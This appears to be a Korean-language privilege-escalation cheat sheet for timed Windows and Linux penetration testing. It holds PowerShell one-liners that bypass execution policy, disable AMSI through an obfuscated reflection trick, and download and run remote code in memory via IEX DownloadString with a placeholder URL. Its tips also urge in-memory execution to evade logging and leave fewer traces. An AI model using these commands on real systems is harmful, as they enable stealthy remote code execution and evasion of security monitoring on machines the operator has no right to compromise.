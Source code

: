 ```cmd
:: Windows 도구 실행 최적화
:: 1. 메모리 부족시 가벼운 도구만
Seatbelt.exe TokenPrivileges WindowsCredentialFiles

:: 2. 네트워크 제한시 오프라인 모드
winPEAS.exe systeminfo userinfo servicesinfo

:: 3. 실행 정책 문제시 우회
powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('URL')"

:: 4. AMSI 문제시 우회
powershell -c "$a='System.Management.Automation.A';$b='msiUtils';$u=$a+$b;$k=[Ref].Assembly.GetType($u);$z=$k.GetField('amsiInitFailed','NonPublic,Static');$z.SetValue($null,$true);IEX(New-Object Net.WebClient).DownloadString('URL')"

:: 5. 로그 회피를 위한 메모리 실행
powershell -nolog -noni -nop -ep bypass -c "IEX(New-Object Net.WebClient).DownloadString('URL')"
```

## 🚨 중요 참고사항

### ⏰ 시간 관리

- **처음 1분**: 플랫폼 확인 및 적절한 도구 선택
- **다음 2분**: 도구 다운로드/업로드 및 실행 권한 설정
- **3-5분**: 자동화 도구 실행 (병렬 실행 권장)
- **마지막 5분**: 결과 분석 및 고위험 취약점 수동 검증

### 🎯 도구 선택 우선순위

**Linux:**

1. **LinPEAS**: 가장 포괄적이고 정확한 도구
2. **linux-exploit-suggester**: 커널 익스플로잇 전용
3. **LinEnum**: 빠른 기본 정보 수집
4. **LSE**: 스마트한 열거 및 분석

**Windows:**

1. **WinPEAS**: 가장 포괄적인 Windows privesc 도구
2. **PowerUp**: PowerShell 환경에서 강력함
3. **Seatbelt**: 상세한 시스템 정보 수집
4. **SharpUp**: .NET 환경에서 빠른 실행

### 🔥 즉시 시도할 것들

- 자동화 도구 실행과 동시에 수동 확인 병행
- 고위험(99%, 95%) 결과 우선 검증
- False Positive 필터링으로 시간 절약
- 여러 도구 결과 교차 검증으로 정확도 향상

### 💡 팁

- 자동화 도구는 시작점이지 끝이 아님
- 도구 결과는 반드시 수동 검증 필요
- 네트워크 제한 환경을 대비해 로컬 도구 준비
- 메모리 실행으로 흔적 최소화
- 여러 도구 조합으로 누락 방지
- 결과 저장 및 분석을 통한 체계적 접근
